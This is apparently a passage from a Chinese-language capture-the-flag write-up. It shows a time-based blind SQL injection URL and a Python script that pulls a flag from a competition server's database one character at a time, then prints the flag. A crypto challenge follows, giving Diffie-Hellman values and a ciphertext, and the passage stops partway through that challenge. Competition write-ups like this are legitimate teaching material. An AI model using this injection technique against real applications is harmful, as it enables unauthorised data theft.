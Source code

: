 [![](https://p5.ssl.qhimg.com/t01baaee4ad7f2434b9.png)](https://p5.ssl.qhimg.com/t01baaee4ad7f2434b9.png)<br>
nice，发现flag字段也存在，省了不少事<br>
下面是思考如何注入得到数据,随手测试

```
http://101.71.29.5:10004/Admin/User/Index?search[table]=flag where 1 and if(1,sleep(3),0)--
```

[![](https://p2.ssl.qhimg.com/t011de69367f680bdba.png)](https://p2.ssl.qhimg.com/t011de69367f680bdba.png)<br>
发现成功sleep 3s,轻松写出exp

```
import requests
flag = ''
cookies = `{`
    'PHPSESSID': 're4g49sil8hfh4ovfrk7ln1o02'
`}`
for i in range(1,33):
    for j in '0123456789abcdef':
        url = 'http://101.71.29.5:10004/Admin/User/Index?search[table]=flag where 1 and if((ascii(substr((select flag from flag limit 0,1),'+str(i)+',1))='+str(ord(j))+'),sleep(3),0)--'
        try:
            r = requests.get(url=url,timeout=2.5,cookies=cookies)
        except:
            flag += j
            print flag
            break
```

但是有点恶心的是，好像每隔5分钟就要重新注册，登录一遍，断断续续跑了几次，得到flag<br>[![](https://p0.ssl.qhimg.com/t01405c5c3c1e695e5f.png)](https://p0.ssl.qhimg.com/t01405c5c3c1e695e5f.png)

```
459a1b6ea697453c60132386a5f572d6
```



## Crypto

### <a class="reference-link" name="Get%20it"></a>Get it

题目描述

```
Alice和Bob正在进行通信，作为中间人的Eve一直在窃听他们两人的通信。

Eve窃听到这样一段内容，主要内容如下：
p = 37
A = 17
B = 31

U2FsdGVkX1+mrbv3nUfzAjMY1kzM5P7ok/TzFCTFGs7ivutKLBLGbZxOfFebNdb2
l7V38e7I2ywU+BW/2dOTWIWnubAzhMN+jzlqbX6dD1rmGEd21sEAp40IQXmN/Y0O
K4nCu4xEuJsNsTJZhk50NaPTDk7J7J+wBsScdV0fIfe23pRg58qzdVljCOzosb62
7oPwxidBEPuxs4WYehm+15zjw2cw03qeOyaXnH/yeqytKUxKqe2L5fytlr6FybZw
HkYlPZ7JarNOIhO2OP3n53OZ1zFhwzTvjf7MVPsTAnZYc+OF2tqJS5mgWkWXnPal
+A2lWQgmVxCsjl1DLkQiWy+bFY3W/X59QZ1GEQFY1xqUFA4xCPkUgB+G6AC8DTpK
ix5+Grt91ie09Ye/SgBliKdt5BdPZplp0oJWdS8Iy0bqfF7voKX3VgTwRaCENgXl
VwhPEOslBJRh6Pk0cA0kUzyOQ+xFh82YTrNBX6xtucMhfoenc2XDCLp+qGVW9Kj6
m5lSYiFFd0E=

分析得知，他们是在公共信道上交换加密密钥，共同建立共享密钥。

而上面这段密文是Alice和Bob使用自己的密值和共享秘钥，组成一串字符的md5值的前16位字符作为密码使用另外一种加密算法加密明文得到的。

```